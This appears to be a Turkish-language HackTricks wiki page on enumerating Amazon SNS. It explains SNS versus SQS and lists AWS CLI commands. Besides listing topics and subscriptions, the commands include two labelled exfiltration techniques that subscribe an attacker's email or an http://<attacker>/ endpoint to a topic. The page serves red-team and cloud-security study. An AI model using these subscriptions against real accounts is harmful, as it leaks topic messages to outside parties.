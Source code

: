 # AWS - SNS Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SNS

Amazon Basit Bildirim Servisi (Amazon SNS), **tamamen yönetilen bir mesajlaşma servisi** olarak tanımlanır. Hem **uygulama-uygulama** (A2A) hem de **uygulama-kisi** (A2P) iletişim türlerini destekler.

A2A iletişimi için ana özellikler **yayınla/abone ol (pub/sub) mekanizmaları** içerir. Bu mekanizmalar, yüksek verimli, **itme tabanlı, çoktan çoğa mesajlaşmayı** sağlamak için kritik olan **konuları** tanıtır. Bu özellik, dağıtılmış sistemler, mikro hizmetler ve olay odaklı sunucusuz mimariler içeren senaryolar için son derece avantajlıdır. Bu konuları kullanarak, yayıncı sistemler mesajları **geniş bir abone sistemi yelpazesine** verimli bir şekilde dağıtabilir, böylece bir fanout mesajlaşma modeli oluşturur.

### **SQS ile Fark**

**SQS**, nokta-nokta iletişimi sağlayan **kuyruk tabanlı** bir hizmettir ve mesajların **tek bir tüketici** tarafından işlenmesini garanti eder. **En az bir kez teslimat** sunar, standart ve FIFO kuyrukları destekler ve mesajların yeniden denemeler ve gecikmeli işleme için saklanmasına izin verir.\
Öte yandan, **SNS** bir **yayınla/abone ol tabanlı hizmettir**, mesajları **birden fazla aboneye** aynı anda yayınlayarak **birden-çoğa** iletişimi mümkün kılar. **E-posta, SMS, Lambda fonksiyonları ve HTTP/HTTPS** gibi çeşitli abonelik uç noktalarını destekler ve hedefli mesaj teslimatı için filtreleme mekanizmaları sağlar.\
Her iki hizmet de dağıtılmış sistemlerde bileşenler arasında ayrıştırma sağlasa da, SQS kuyruklu iletişime odaklanırken, SNS olay odaklı, fan-out iletişim modellerine vurgu yapar.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**FIFO** türündeki **konular** için yalnızca **SQS** protokolünü kullanan abonelerin kullanılabileceğini unutmayın (HTTP veya HTTPS kullanılamaz).

Ayrıca, `--topic-arn` bölgeyi içerse bile, **`--region`** parametresinde doğru bölgeyi belirttiğinizden emin olun, aksi takdirde erişiminiz olmadığına dair bir hata alırsınız, ancak sorun bölgedir.
{% endhint %}

#### Kimlik Doğrulama Olmadan Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### İstismar Sonrası

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Süreklilik

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
